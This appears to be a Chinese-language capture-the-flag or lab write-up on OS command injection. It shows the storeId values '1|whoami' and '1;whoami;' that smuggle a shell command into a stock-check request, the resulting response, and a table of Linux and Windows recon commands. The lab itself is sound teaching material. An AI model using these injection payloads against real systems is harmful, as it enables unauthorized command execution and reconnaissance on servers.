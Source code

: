 应用程序会执行一条包含用户提供的产品ID和商店ID的shell命令，并在其响应中返回该命令的原始输出。

要完成本实验，请执行`whoami`命令以确定当前用户的名称。



使用Burp Suite拦截并修改**库存查询**的请求。

![image-20250319084426120](./images/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5.assets/image-20250319084426120.png)



修改 `storeID` 参数，将其值设置为 `1|whoami`。

```
productId=1&storeId=1|whoami
```

以下方法也可以：

```
productId=1&storeId=1;whoami;
```



观察到响应中包含当前用户的名称。

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-UYEKAU
```



## 实用命令速查表

在识别出操作系统命令注入漏洞后，执行一些初始命令以获取有关系统的信息是有用的。以下是 Linux 和 Windows 平台上一些有用命令的摘要：

| 命令目的     | Linux         | Windows         |
| ------------ | ------------- | --------------- |
| 当前用户名称 | `whoami`      | `whoami`        |
| 操作系统     | `uname -a`    | `ver`           |
| 网络配置     | `ifconfig`    | `ipconfig /all` |
| 网络连接     | `netstat -an` | `netstat -an`   |
| 运行中的进程 | `ps -ef`      | `tasklist`      |
